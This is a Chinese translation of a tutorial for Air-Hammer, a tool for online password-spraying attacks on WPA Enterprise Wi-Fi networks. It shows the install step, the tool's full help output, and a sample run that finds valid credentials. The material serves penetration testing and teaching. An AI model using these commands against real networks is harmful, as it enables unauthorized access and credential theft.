

# 空气锤——一种在线暴力攻击工具

> 原文：<https://kalilinuxtutorials.com/air-hammer-brute-force-attack/>

Air-Hammer 是一个在线暴力攻击工具，用于攻击 WPA 企业网络。尽管 WPA Enterprise 通常被认为比 WPA-PSK“更安全”,但它同样具有更大的攻击面。虽然 WPA-PSK 系统只有一个合法的密码，但是可能有大量的用户名和密码组合来允许访问一个单独的 WPA 企业网络。此外，用于访问 WPA 企业网络的密码通常由最终客户选择，其中许多人选择非常基本的密码。

## **安装依赖关系**

Air-Hammer 已经在当前版本的 Kali Linux 上构建和使用。除了缺省情况下 Kali Linux 附带的软件包之外，还需要安装以下依赖项:

*   **[python-wpa-恳求者](https://github.com/digidotcom/python-wpa-supplicant) :**

```
 `root@kali:~# pip install wpa_supplicant` 
```

**也读作 [材质成分为安卓](http://kalilinuxtutorials.com/material-components/)**

## **其他要求**

Air-Hammer 需要一个对目标网络有效的用户名列表才能运行。创建这个列表的一些基本建议包含在我的博客中概述的攻击链的[步骤 2 中。](http://mikeallen.org/blog/2016-10-06-breaking-into-wpa-enterprise-networks-with-air-hammer/#attack-chain)

## **空气锤用法**

`-h`或`--help`标志可用于显示空气锤的使用说明。

```
**root@kali:~# ./air-hammer.py --help
usage: air-hammer.py -i interface -e SSID -u USERFILE [-P PASSWORD]
                     [-p PASSFILE] [-s line] [-w OUTFILE] [-1] [-t seconds]

Perform an online, horizontal dictionary attack against a WPA Enterprise
network.

optional arguments:
  -i interface  Wireless interface (default: None)
  -e SSID       SSID of the target network (default: None)
  -u USERFILE   Username wordlist (default: None)
  -P PASSWORD   Password to try on each username (default: None)
  -p PASSFILE   List of passwords to try for each username (default: None)
  -s line       Optional start line to resume attack. May not be used with a
                password list. (default: 0)
  -w OUTFILE    Save valid credentials to a CSV file (default: None)
  -1            Stop after the first set of valid credentials are found
                (default: False)
  -t seconds    Seconds to sleep between each connection attempt (default:
                0.5)** 
```

## **例子**

下面是使用 wlan0 的标准攻击，目标是“Test-Network”无线网络，密码为“UserPassword1”，用户名列表存储在文件“usernames.txt”中。

```
**root@kali:~# ./air-hammer.py -i wlan0 -e Test-Network -P UserPassword1 -u usernames.txt 
[0]  Trying alice:UserPassword1...
[1]  Trying bob:UserPassword1...
[2]  Trying charlotte:UserPassword1...
[3]  Trying dave:UserPassword1...
[4]  Trying wifiuser:UserPassword1...
[!] VALID CREDENTIALS: wifiuser:UserPassword1
[5]  Trying wrongUser05:UserPassword1...
[6]  Trying wrongUser06:UserPassword1...** 
```

## **截图**



[](https://github.com/Wh1t3Rh1n0/air-hammer/#installing-dependencies)